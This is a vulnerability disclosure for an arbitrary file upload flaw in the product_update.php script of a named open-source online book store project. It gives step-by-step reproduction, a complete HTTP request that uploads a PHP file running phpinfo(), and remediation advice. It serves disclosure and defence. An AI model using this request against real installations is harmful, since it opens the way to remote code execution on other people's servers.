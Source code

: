# keerti1924 / Online-Book-Store-Website - product_update.php Arbitrary FIle Upload

## Vendor Homepage:
[Online-Book-Store-Website](https://github.com/keerti1924/Online-Book-Store-Website)

## Impact
The product_update.php script in keerti1924's Online-Book-Store-Website allows for arbitrary file uploads, potentially leading to remote code execution or other security breaches. By exploiting this vulnerability, an authenticated admin user can upload malicious files, such as PHP scripts, to the server, allowing them to execute arbitrary code and compromise the system.

## Proof of Concept
Step 1: Login as an admin
Step 2: Go to products section
Step 3: Edit any product
Step 4: Choose any file to upload
Step 5: Update book
Step 6: The file will be stored in the /uploaded_img directory on the server.

## HTTP Request Example
```http request
POST /product_update.php?update=1 HTTP/2
Host: [REDACTED]
Cookie: PHPSESSID=[REDACTED];
Content-Length: 853
Cache-Control: max-age=0
Sec-Ch-Ua: "Chromium";v="121", "Not A(Brand";v="99"
Sec-Ch-Ua-Mobile: ?0
Sec-Ch-Ua-Platform: "macOS"
Upgrade-Insecure-Requests: 1
Content-Type: multipart/form-data; boundary=----WebKitFormBoundaryczeIpXB0W8h41atA
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Sec-Fetch-Site: same-origin
Sec-Fetch-Mode: navigate
Sec-Fetch-User: ?1
Sec-Fetch-Dest: document
Accept-Encoding: gzip, deflate, br
Accept-Language: en-US,en;q=0.9
Priority: u=0, i

------WebKitFormBoundaryczeIpXB0W8h41atA
Content-Disposition: form-data; name="update_p_id"

1
------WebKitFormBoundaryczeIpXB0W8h41atA
Content-Disposition: form-data; name="update_old_image"

hua.php
------WebKitFormBoundaryczeIpXB0W8h41atA
Content-Disposition: form-data; name="update_image"; filename="nochizplz.php"
Content-Type: text/php

<?php phpinfo(); ?>

------WebKitFormBoundaryczeIpXB0W8h41atA
Content-Disposition: form-data; name="update_name"

The Thirteenth Tale
------WebKitFormBoundaryczeIpXB0W8h41atA
Content-Disposition: form-data; name="update_author"

Diane Setterfield
------WebKitFormBoundaryczeIpXB0W8h41atA
Content-Disposition: form-data; name="update_price"

55
------WebKitFormBoundaryczeIpXB0W8h41atA
Content-Disposition: form-data; name="update_product"


------WebKitFormBoundaryczeIpXB0W8h41atA--
```

## Proof with screenshot
![Screenshot](https://github.com/skid-nochizplz/skid-nochizplz/blob/main/TrashBin/CVE/keerti1924%20Online-Book-Store-Website/File%20Upload/Arbitrary%20FIle%20Upload%20in%20product_update.php%20Screenshot%20.png?raw=true)

## Remidiation
To mitigate this issue, implement proper input validation and file upload restrictions on the server-side. Only allow uploads of authorized file types and enforce strict file permissions to prevent execution of uploaded files as scripts. Additionally, consider implementing file upload scanning and validation mechanisms to detect and prevent the upload of malicious files.

## CWE
[CWE-434: Unrestricted Upload of File with Dangerous Type](https://cwe.mitre.org/data/definitions/434.html)